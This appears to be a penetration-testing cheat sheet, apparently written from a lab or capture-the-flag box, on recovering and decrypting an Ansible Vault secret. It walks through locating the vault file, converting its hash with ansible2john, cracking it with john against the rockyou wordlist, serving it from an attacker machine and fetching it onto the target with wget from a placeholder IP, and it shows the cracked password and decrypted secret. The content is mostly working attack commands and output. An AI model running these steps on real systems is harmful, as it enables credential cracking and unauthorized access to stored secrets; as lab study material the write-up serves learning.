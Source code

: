# Ansible

## Interesting files :

```bash
/etc/ansible/hosts # Contains Ansible Hosts
/opt/ansible/webserver.yaml # Contains Ansible vault
```

## Cracking Ansible Vault key whic is inside "webserver.yaml".

1. Copy the Ansible vault hash to a file in our kali box.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ cat ansiblehash.yml         
$ANSIBLE_VAULT;1.1;AES256
85749358902385290352387534692304572903837348529753875298573289572385798237528933
84958439658349058390485204372893781012847285320927384990128438756092350389501789
47389948729578375928750238297952387527308957302860238769523759086237823302723838
57298738895782350931753892579023897509372807230502739082709375032709570397923079
47389948728738375928759378297959407527334898302860238769523759086237
```

2. Use ansible2john to convert the hash in a cracking format.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ python /usr/share/john/ansible2john.py ansiblehash.yml > crackme.txt
   
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ cat crackme.txt    
ansiblehash.yml:$ansible$0*0*fe73d35cab482b4925e4898e6d7cd4150e6fac64bb148f5975ede38402a01528*164531331b5e08326cb2eaa1c94b14bed942d7f8d03c07fe4ef139c3682a1e7d*2c41668638e237e7288408978181cacd68c1a120ed27d32fda23906f8f5148f8
```

3. Crack the key using john.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt
```

Now that we retrieve the vault password. We can upload the ansible vault hash on the CB3 box, and decrypt the vault content using ansible-vault and the cracked password.

4. Start a SimpleHTTPServer where the ansible hash is stored in our kali.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ python -m SimpleHTTPServer 443                                      
Serving HTTP on 0.0.0.0 port 443 ...
```

5. Then download it inside the target box.

```bash
target@sinhack2:~$ wget http://192.168.x.x:443/ansiblehash.yml
```

6. Decrypt the vault using ansible-vault and the previous cracked password.

```bash
target@sinhack2:~$ cat ansiblehash.yml | ansible-vault decrypt
cat ansiblehash.yml | ansible-vault decrypt
Vault password: sup3rp@ssw0rd5

Hello word,

The secret key is :

SuperSecretInsideTheVault28193

Decryption successful
```
